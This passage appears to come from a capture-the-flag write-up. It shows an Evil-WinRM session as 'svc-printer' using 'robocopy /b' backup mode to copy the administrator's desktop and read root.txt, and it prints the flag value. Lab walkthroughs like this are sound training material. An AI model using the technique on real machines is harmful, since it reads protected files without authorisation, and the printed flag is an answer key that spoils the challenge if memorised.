 ```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> robocopy /b C:\users\administrator\desktop C:\programdata\temp
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Saturday, January 28, 2023 8:45:40 AM
   Source : C:\users\administrator\desktop\
     Dest : C:\programdata\temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           2    C:\users\administrator\desktop\
            New File                  34        root.txt
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         2         1         1         0         0         0
   Bytes :       316        34       282         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
   Ended : Saturday, January 28, 2023 8:45:40 AM

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> cd C:\programdata\temp
*Evil-WinRM* PS C:\programdata\temp> dir


    Directory: C:\programdata\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/27/2023  10:06 PM             34 root.txt

```
now we can read the root file

```
*Evil-WinRM* PS C:\programdata\temp> type root.txt
3a8e0ddbc41e01511f43c310d8fd6eca
```
